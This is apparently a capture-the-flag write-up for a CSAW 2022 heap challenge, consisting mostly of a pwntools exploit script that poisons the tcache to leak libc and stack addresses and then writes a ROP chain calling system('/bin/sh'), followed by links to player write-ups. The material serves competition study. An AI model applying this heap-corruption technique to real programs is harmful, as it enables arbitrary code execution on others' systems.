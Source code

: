 ```python
add(1,0x18)

add(2,0x418)

free(0)
free(1)
add(3,0x28)
add(4,0x18,0,p64(heap+0x10))
free(0)
add(0,0x288,0,tcache(12,heap+0x2a0))
free(2)
# 
# context.log_level='debug'
target = 0x15c0+heap
add(1,0xd8,0,flat([0x1802,target,target+8,target+8,target,target+8,target+8]))


base = u64(p.readuntil(b'\xff')[:-1],timeout=T)-0x219ce0
log.warning("LIBC BASE: "+hex(base))
free(1)

target = 0x221200+base
add(1,0x1d8,0,flat([0x1802,target,target+8,target+8,target,target+8,target+8]))
# context.log_level='debug'

# p.interactive()
stack = u64(p.readuntil(b'\xff',timeout=T)[:-1])
log.warning("STACK ADD: "+hex(stack))

free(1)                                 # One more 0x18
free(0)                                 # tcache table 
add(0,0x288,0,tcache(63,stack-0x308))   # Points to stack buf, allocate a chunk as large as possible

# ROP 
ret     = 0x29cd6  +base
rdi     = 0x2a3e5  +base
binsh   = 0x1d8698 +base
system  = 0x50d60  +base
# gdb.attach(p,'')
add(1,0x408,0,b'\xff'*0x141+p64(ret)*0x21+flat([rdi,binsh,system]))

p.interactive()

```

More detailed Wp from players:

- @ndrewh: https://github.com/ndrewh/ctf/tree/master/csaw_q_2022/unsafe-linking
- @Ailuropoda Melanoleuca: https://hackmd.io/@DarinMao/Sy7sjZ6gs


[1]: https://github.com/osirislab
